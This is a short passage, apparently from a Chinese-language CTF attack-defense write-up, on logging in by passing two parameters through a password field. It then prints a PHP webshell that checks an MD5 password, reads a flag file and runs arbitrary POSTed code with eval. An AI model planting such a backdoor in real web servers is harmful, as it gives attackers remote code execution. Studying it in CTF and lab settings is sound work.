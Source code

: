 
**方法二：**<br>

直接在密码输入里面把两种参数一起传进去 <br>

![images](/images/2018-06-01/hm27.png)

---

两种方法都可以连进去 <br>

![images](/images/2018-06-01/hm28.png)

-----------

**再溜一只马** <br>

```php
<?php error_reporting(0); 
if(md5($_POST[a])==='21232f297a57a5a743894a0e4a801fc3') 
	{echo file_get_contents('/home/wwwroot/default/templates/flag.txt');
	@eval($_POST[b]);}
?>
```

这只马跟之前的有点不太一样，多了一句读取flag<br>
